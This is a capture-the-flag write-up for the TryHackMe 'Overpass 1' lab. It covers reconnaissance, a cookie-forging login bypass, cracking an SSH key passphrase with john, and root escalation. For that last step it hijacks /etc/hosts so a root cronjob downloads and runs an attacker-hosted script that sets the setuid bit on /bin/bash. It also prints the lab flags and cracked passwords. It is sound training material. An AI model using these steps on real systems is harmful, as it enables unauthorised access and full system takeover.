


# Overpass 1

* IP = 10.10.235.228

## Questions/Tasks:

* Starting with a nmap scan to discover open ports:`nmap -sC -sV $IP`

### Nmap Scan Results:
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 37:96:85:98:d1:00:9c:14:63:d9:b0:34:75:b1:f9:57 (RSA)
|   256 53:75:fa:c0:65:da:dd:b1:e8:dd:40:b8:f6:82:39:24 (ECDSA)
|_  256 1c:4a:da:1f:36:54:6d:a6:c6:17:00:27:2e:67:75:9c (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-favicon: Unknown favicon MD5: 0D4315E5A0B066CEFD5B216C8362564B
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Overpass
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
* Next we enumerate the webpage with *gobuster*:`gobuster -u "http://IP/" -w common.txt`

### Gobuster Scan Results:
```
/aboutus (Status: 301)
/admin (Status: 301)
/css (Status: 301)
/downloads (Status: 301)
/img (Status: 301)
/index.html (Status: 301)
```
* Net we tried some basic recon over the whole webpage:<br>
* Main Page:<br>

* Main Page Source:<br>

* About Us Page:<br>

* Downloads Page:<br>


* From here, we download the source code and the build script.
* Only interesting thing about the source was:
```go
func rot47(input string) string {}
```
* Which indicated usage of ROT47 for encryption, and:
```go
credsPath, err := homedir.Expand("~/.overpass")
```
* Which tells us about the location of storing credentials...
* Next we visited the **/admin** page:<br>

* Now, as the hint says, no need to brute force, So we looked for source codes:
* In the main.js file we found this function:
```javascript
async function login() {
    const usernameBox = document.querySelector("#username");
    const passwordBox = document.querySelector("#password");
    const loginStatus = document.querySelector("#loginStatus");
    loginStatus.textContent = ""
    const creds = { username: usernameBox.value, password: passwordBox.value }
    const response = await postData("/api/login", creds)
    const statusOrCookie = await response.text()
    if (statusOrCookie === "Incorrect credentials") {
        loginStatus.textContent = "Incorrect Credentials"
        passwordBox.value=""
    } else {
        Cookies.set("SessionToken",statusOrCookie)
        window.location = "/admin"
    }
}
```
* In the console of DevTools we set a cookie with `Cookies.set("SessionToken","AnythingForTest")`, and reloaded the page:<br>

* And voila! we got an encrypted rsa private key; look carefully it says for `James` hence the username is `james`.
* Copy the text into a file and change permissions with:`chmod 600 id_rsa`
* Next, to crack the passphrase, create a hash:`python ssh2john.py id_rsa > hash.txt`, then crack with:<br>
`john hash.txt --wordlist=rockyou.txt`

* We get the cracked passphrase as `james13`, now SSH into the server with:`ssh -i id_rsa james@IP`.
* Just like that we get the user flag...
* Tried some basic recon on the james' home directory and got these:<br>

* The encrypted contents decrypted with an online tool:<br>

```JSON
[{"name":"System","pass":"saydrawnlyingpicture"}]
```

1. Hack the machine and get the flag in user.txt

**Ans-thm{65c1aaf000506e56996822c6281e6bf7}**

* Firstly we tried `sudo -l` to check commands that can be run as root, but `james` is not in sudo group.
* No interesting SUID/SGID binaries either...
* Finally checked the crontab and found this:<br>

* Also we have read and write permissions in /etc/hosts:<br>
<br>
* Thus we can edit the `/etc/hosts` file to change the hostname `overpass.thm` IP to our IP:<br>

* Now save the changes and build a custom script `buildscript.sh` in **local machine** to get a root shell, since the cronjob is run by **root** in every minute!!
* Put the file inside `./downloads/src/`.
* Start a python server with port 80 on local machine:`sudo python3 -m http.server 80`<br>

* Waiting for a minute and half for the cronjob to run, we get a root shell according to the custom script.


* I personally just added `chmod +s /bin/bash` to **buildscript.sh**, so after a minute the permissions of /bin/bash of the server changed to a setuid binary
* Now I used `/bin/bash -p` to get a root shell

2. Escalate your privileges and get the flag in root.txt

**Ans-thm{7f336f8c359dbac18d54fdd64ea753bb}**


**PS** Anyone wondering where would be the Tryhackme coupon code, just visit */home/tryhackme*, see the contents of *.overpass*, decrypt it, and you'll get it!! Though it's invalid now...🥲
